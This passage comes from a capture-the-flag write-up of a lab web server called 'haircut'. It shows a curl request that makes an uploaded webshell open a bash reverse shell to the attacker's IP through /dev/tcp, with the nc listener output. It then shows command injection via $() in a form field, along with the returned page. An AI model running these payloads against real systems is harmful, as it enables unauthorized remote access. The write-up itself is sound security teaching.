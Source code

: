 To go to a real shell, I'll start `nc` and send that command to the
webshell:



    root@kali# curl -G http://10.10.10.24/uploads/0xdf.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'"



At a `nc` listener:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.24.
    Ncat: Connection from 10.10.10.24:43828.
    bash: cannot set terminal process group (1225): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@haircut:~.md/uploads$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Alternative Injection

I noticed the none of `` `$() `` were triggering the filter, so I went
for command injection that way as well. The `curl` command throws errors
onto the page:



    root@kali# curl http://10.10.10.24/exposed.php -d 'formurl=10.10.14.15/$(ping -c 1 10.10.14.15)&submit=go'
    .md>
            <head>
                    <title>Hairdresser checker</title>
            </head>
            <body>
            <form action='exposed.php' method='POST'>
                    <span>
                    <p>
                    Enter the Hairdresser's location you would like to check. Example: http://localhost/test.md
                    </p>
                    </span>
                    <input type='text' name='formurl' id='formurl' width='50' value='http://localhost/test.md'/>
                    <input type='submit' name='submit' value='Go' id='submit' />
            </form>
            <span>
                    <p>Requesting Site...</p>curl: option ---: is unknown
    curl: try 'curl --help' or 'curl --manual' for more information
            </span>
            </body>
    <.md>
